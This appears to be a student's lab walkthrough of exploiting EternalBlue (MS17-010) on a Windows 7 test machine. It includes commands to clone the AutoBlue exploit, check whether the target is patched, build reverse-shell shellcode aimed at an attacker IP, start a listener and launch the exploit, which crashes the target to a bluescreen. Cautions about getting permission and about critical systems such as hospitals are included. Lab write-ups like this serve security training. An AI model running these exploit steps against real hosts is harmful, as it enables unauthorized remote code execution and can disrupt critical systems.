

will search for Eternal Blue github and will find the which has most star's and good write up to follow
link : https://github.com/3ndG4me/AutoBlue-MS17-010
Command : cd /opt/
Command : git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
Command : cd AutoBlue-MS17-010
Command : pip install -r requirements.txt
┌──(root㉿kali)-[/opt/AutoBlue-MS17-010]
└─# python eternal_checker.py 192.168.142.130
[*] Target OS: Windows 7 Ultimate 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
Remember not to run this exploit if not sure about the machine because it might running something critical in the
critical environment.(i.e. Hospital)
- Always ask the client and get the permission first.
Command : cd shellcode/
Command : ./shell_prep.sh
y
192.168.142.128
9999
2222
1
0
Command : cd ..
Command : ./listener.sh
192.168.142.128
9999
2222
1
0
Command : python eternalblue_exploit7.py 192.168.142.130 shellcode/sc_all.bin
as a result we got a bluescreen error and that's why mentor told not to error manual exploit wihtout getting persmission because if this machine
is used in a surgery it would be critical situation for them and the hacker.
